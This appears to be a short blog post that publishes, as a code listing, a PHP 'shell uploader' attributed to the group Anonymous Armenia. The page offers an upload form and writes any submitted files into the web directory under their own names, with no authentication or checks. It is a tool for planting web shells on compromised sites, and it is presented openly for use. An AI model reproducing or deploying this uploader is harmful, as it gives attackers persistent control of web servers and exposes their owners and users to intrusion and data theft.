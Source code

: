 ```yaml
---
id: 24
title: Shell Uploader source code
author: admin
layout: post
categories:
  - PHP
---
```



### Anonymous Armenian Shell Uploader source code

#### By Anonymous Armenia


{% highlight php linenos %}

<!DOCTYPE html>
<html>
<head>
	<title>SHELL UPLOADER BY ANONYMOUS ARMENIA</title>
</head>
<body>
<h1>SHELL UPLOADER BY ANONYMOUS ARMENIA</h1>
<form method="post" enctype="multipart/form-data">
<br>
</br>
<input name="file[]" type="file" multiple/>
<br>
<input type="submit" value="upload" name="upload" />
</form>
<?php
if (isset($_POST["upload"])) {
	for ($i=0; $i < count($_FILES['file']['name']); $i++) {
		if (copy($_FILES["file"]["tmp_name"][$i], $_FILES["file"]["name"][$i])) {
			echo $_FILES["file"]["name"][$i]."<br>";
		}
	}
}
?>
</body>
</html>
{% endhighlight %}
